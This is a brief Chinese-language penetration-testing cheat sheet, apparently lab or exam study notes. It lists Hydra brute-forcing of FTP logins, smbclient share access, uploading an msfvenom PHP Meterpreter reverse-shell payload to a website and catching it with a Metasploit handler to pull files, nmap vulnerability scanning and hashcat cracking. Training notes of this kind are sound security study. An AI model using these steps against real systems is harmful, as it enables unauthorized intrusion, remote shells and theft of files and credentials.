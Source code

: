 FTP傳檔

- ftp IP
- 用hydra取得帳密
- get XXX.txt

如何使用smbclient指令來存取SMB

- smbclient //10.10.10.10/XXXXXX -U admin
- smbclient -L 10.10.10.10 -U admin 可以看到所分享出來的目錄
- get file.txt ~/Download/file.txt 用來取得檔案

如何進行Reverse TCP

- msfvenom -p php/meterpreter/reverse\_tcp LHOST=10.10.10.13 LPORT=4444 -f raw -o exploit.php
- 將exploit.php檔案上傳到網站
- msfconsole
- use exploit/multi/handler
- set payload php/meterpreter/reverse\_tcp
- set lhost
- run
- 透由browser去瀏覽該PHP檔案
- search -f "\*.png"
- download file.txt

**其它**

- 利用Detect It Easy（DIE）去分析執行檔
- 取得Windows 使用者之SID
    - wmic useraccount get name,sid
- 在parrot裡用Remmina連windows RDP
- nmap -Pn - -script vuln &lt;IP&gt; 用來進行基本弱掃
- 在parrot裡用下面指令處理base64
    - base64 -d &lt;File&gt; -&gt; 解碼
    - base64 &lt;File&gt; &gt; 111.txt -&gt; 編碼
- 使用hastcat來解開hash
    - hashcat -a 0 -m 0 &lt;hash file&gt; &lt;wordlist&gt; --&gt;raw md5
